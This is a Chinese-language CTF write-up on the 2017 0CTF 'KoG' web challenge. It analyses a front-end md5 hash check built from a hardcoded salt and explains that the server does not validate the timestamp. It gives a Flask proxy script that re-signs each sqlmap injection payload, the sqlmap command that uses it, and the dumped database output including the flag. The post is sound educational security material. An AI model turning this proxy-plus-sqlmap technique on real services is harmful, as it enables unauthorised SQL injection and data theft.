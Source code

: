 ```yaml
---
title: sqlmap代理绕过参数hash验证
date: 2017-03-19 22:33:36
categories: CTF
tags:
    - 0CTF
    - sqlmap
    - SQL注入
---
```


## 背景介绍

前端js对用户输入的参数进行加密，然后发送给服务器，服务器先验证合法性，然后才处理用户传入的参数，返回响应。这种方式并没有看起来的那么可靠，完全依赖前端的加密，服务器仅仅只进行验证工作，这是很不安全的，用户只需分析清楚前端的加密方式，然后利用这种加密方式加密数据，就可以伪造数据通过服务器的验证。

2017 0CTF一道Web题`KoG`就是这种情况, 前端js首先会验证用户输入的合法性，对合法的输入进行加密，服务端进行验证。若想绕过js的验证，可以通过更改js的代码，或者分析清楚js的加密方式，然后利用加密方式伪造数据。

<!-- more -->

## js加密方式解析

发送真正请求的方式为:

```js
var s = "api.php?id=" + args["id"] + "&hash=" + ar[0] + "&time=" + ar[1];
```

关键是hash内部是怎么加密的。对前端js进行调试，发现其加密方式为:

```
md5(d727d11f6d284a0d + id +  This_is_salt + time)
```

知道了hash加密的方式, 服务器根据id和time验证hash值是否正确，id为用户输入，关键看time服务器是否会验证，若time值服务器不验证则很容易伪造hash值，若服务器验证time,则需要知道time值是怎样来的，然后每次都要更新time值，所幸服务器没有验证time值，因此hash值是可以控制的了，剩下的就是对id的注入。

## id注入

说到sql注入，自然想到神器sqlmap，由于服务器进行了hash校验，直接使用sqlmap时不行的，那就写个代理服务器，对sqlmap每次注入的payload进行加密，然后再发送出去，这样就可以运用sqlmap的自动化能力了

* proxy.py

```python
# -*- coding: utf-8 -*-

import sys
from hashlib import md5

from flask import Flask
from flask import request
import requests


app = Flask(__name__)


def gen_hash(pid):
    data = "d727d11f6d284a0d{} This_is_salt1489821845".format(pid)
    return md5(data).hexdigest()


def get(pid):
    params = {
        'id': '',
        'hash': '',
        'time': '1489821845'
    }

    url = 'http://202.120.7.213:11181/api.php'

    params['id'] = pid
    params['hash'] = gen_hash(pid)
    resp = requests.get(url, params=params)
    return resp.content


@app.route('/')
def index():
    pid = request.args['id']
    return get(pid)


if __name__ == "__main__":
    app.run(debug=True)
```

运行代理服务器，再调用sqlmap: `sqlmap -u 'http://127.0.0.1:5000/?id=1' -p id --dbms=mysql --dump`

```
Database: 0ctf
Table: fl4g
[1 entry]
+---------------------------------+
| hey                             |
+---------------------------------+
| flag{emScripten_is_Cut3_right?} |
+---------------------------------+

[16:18:36] [INFO] table '`0ctf`.fl4g' dumped to CSV file '/Users/js/.sqlmap/output/127.0.0.1/dump/0ctf/fl4g.csv'
[16:18:36] [INFO] fetching columns for table 'user' in database '0ctf'
[16:18:36] [INFO] fetching entries for table 'user' in database '0ctf'
[16:18:36] [INFO] analyzing table dump for possible password hashes
Database: 0ctf
Table: user
[5 entries]
+----+----------------+
| id | name           |
+----+----------------+
| 1  | EaseSingle Qin |
| 2  | Short 5alt     |
| 3  | Married Ma     |
| 4  | Hansome Chen   |
| 5  | President Liu  |
+----+----------------+
```
